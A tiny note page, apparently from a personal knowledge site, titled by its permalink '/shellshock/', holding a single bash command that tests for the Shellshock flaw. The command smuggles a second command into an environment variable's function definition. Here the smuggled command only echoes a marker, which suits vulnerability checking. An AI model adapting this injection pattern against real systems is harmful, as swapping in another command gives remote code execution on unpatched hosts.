 ```yaml
---
{"dg-publish":true,"permalink":"/shellshock/"}
---
```



```shell-session
$ env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"
```